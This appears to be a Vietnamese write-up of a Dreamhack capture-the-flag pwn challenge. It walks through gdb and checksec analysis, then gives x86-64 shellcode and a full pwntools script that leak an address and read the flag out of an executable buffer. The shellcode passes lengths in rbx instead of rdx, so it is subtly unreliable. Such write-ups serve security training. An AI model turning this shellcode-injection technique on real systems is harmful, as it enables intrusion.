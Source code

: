 # Decription

[![](images/2025-07-30_01-41.png)](https://dreamhack.io/wargame/challenges/2033)

# Source
ida

Main func: ![](images/main.png)
sub() func: ![](images/flag.png)

# Problem

```c
Theo ida, biến buf được mmap 7. Tức là có full quyền rwx.
Ta thấy read đọc vào buf 0x400 bytes sau đó gọi hàm sub().
Hàm sub() là mở flag.txt sau đó ghi flag vào biến flag rồi đóng lại. Không có in ra flag.

Sau đó trong hàm main buf được ép thành 1 hàm và thực thi. Điều này làm ta nghĩ ngay đến việc dùng shellcode.
```

# Solve

Ta hãy đi debug chương trình để xem nó hoạt động như thế nào.

![](images/gdb.png)

Tháo gỡ hàm main và đọc từ từ. Ta thấy
```c
   0x000000000000130c <+195>:   call   0x10e0 <puts@plt>
   0x0000000000001311 <+200>:   call   0x1328
   0x0000000000001316 <+205>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000000131a <+209>:   mov    eax,0x0
   0x000000000000131f <+214>:   call   rdx


Sau khi puts, nó gán buf (rbp-0x8) vào rdx và sau đó call rdx.
Đặt breakpoint ở vị trí call rdx.

À. Ta nên checksec trước khi làm điều này.
gef➤  checksec
[+] checksec for '/home/long/Downloads/dreamhack/pwn/passpark/main'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full

PIE hoạt động -> địa chỉ động.
Mặc dù NX ( Stack không thực thi) nhưng buf được mmap nên không quan trọng.

Được rồi. Hãy đặt bp tại call rbx.
b* main+214
```

```c
Tiếp theo điều chúng ta cần làm là gì. Để ý rằng flag được lưu trong &flag. Hãy xem trong sub(), flag là địa chỉ gì.

Đặt thêm 1 bp tại call sub() ( ngay sau hàm puts cuối cùng)

0x000055555555530c <+195>:   call   0x5555555550e0 <puts@plt>
0x0000555555555311 <+200>:   call   0x555555555328


b* main+200

```

![](images/flagadr.png)
```c
Ta thấy được flag thuộc vùng địa chỉ của binary.
Vấn đề là cần leak được nó ra. Sau đó in nội dung của nó là done.

Vậy phải in như nào? Hãy dùng shellcode và in ra 1 số lượng bytes lớn và nhận về địa chỉ exe leak.
```

```c
    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, rsp
    mov rdx, 0x100
    syscall
```

![](images/stackleak.png)

Ta thấy ngay 6 bytes nhận về đầu tiên là exe leak.
Tiếp theo là tính offset đến exe base và sau đó offet đến flag.

```c
p.recv(36)
p.recv(19)
leak = u64(p.recv(6) + b'\x00\x00')
exe.address = leak - 4897
flag = exe.address + 16448
```
Giờ đã có địa chỉ của flag. Tiếp theo ta hãy in nội dung của flag ra. Trước hết hãy vết shellcode nhập địa chỉ flag sau đó  là in ra flag.

```c
    xor rax, rax
    mov rdi, 0
    mov rsi, rsp
    mov rbx, 0x50
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, [rsp]
    mov rbx, 0x100
    syscall
```
# Full script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+165
b*main+214
b*main+200

        c
        ''')
        input()


if args.REMOTE:
    p = remote('host3.dreamhack.games', 13654)
else:
    p = process([exe.path])
GDB()

shellcode= asm('''

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, rsp
    mov rdx, 0x100
    syscall

    xor rax, rax
    mov rdi, 0
    mov rsi, rsp
    mov rbx, 0x50
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, [rsp]
    mov rbx, 0x100
    syscall



    ''', arch='amd64')

sla(b'> ', shellcode)

p.recv(36)
p.recv(19)
leak = u64(p.recv(6) + b'\x00\x00')
exe.address = leak - 4897
flag = exe.address + 16448
log.info('Leak : ' + hex(leak))
log.info('Base : ' + hex(exe.address))
log.info('Flag : ' + hex(flag))

input('Nhap flag: ')
sl(p64(flag))
p.interactive()
```
![](images/solve)
